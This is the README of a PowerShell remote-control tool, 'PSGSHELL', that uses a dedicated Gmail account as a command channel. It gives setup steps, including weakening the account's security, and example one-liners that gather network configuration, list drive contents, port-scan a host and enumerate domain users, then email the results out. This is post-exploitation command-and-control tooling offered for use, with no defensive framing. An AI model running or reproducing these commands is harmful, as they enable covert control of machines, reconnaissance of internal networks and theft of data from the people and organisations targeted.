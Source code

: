 # PSGSHELL

Setup:
Create a new gmail account for this and only this.
Allow non-secure apps

Both Scripts require that you set the email address and password variables at the top of the newly created gmail account.

Built for Powershell 2.0 (Win7) 

syntax is: 
To Return Output:
commander.ps1 '$variable = powershell oneliner; sendemail $variable ~host:host:host'

Without Returning output:

commander.ps1 'powershell oneliner ~host:host:host'


Examples:

# Get IP address
.\commander.ps1 '$var = ipconfig /all; sendemail $var ~123434'

# List C drive contents and send them back to email
.\commander.ps1 '$var = get-childitem c:\; sendmail $var ~123434'

#port scan a host
.\commander.ps1 '$var = 1..1024 | % { echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.10",$_)) "$_ is open"; sendemail $var ~123434'

# Get domain users (Net user /domain) but parsed for powershell output
.\commander.ps1 '$output = net user /domain;$output = $output[6..($output.length-3)];$output = $output -split "\s+" ;$output = $output | ? {$_}; sendemail $output ~123434'

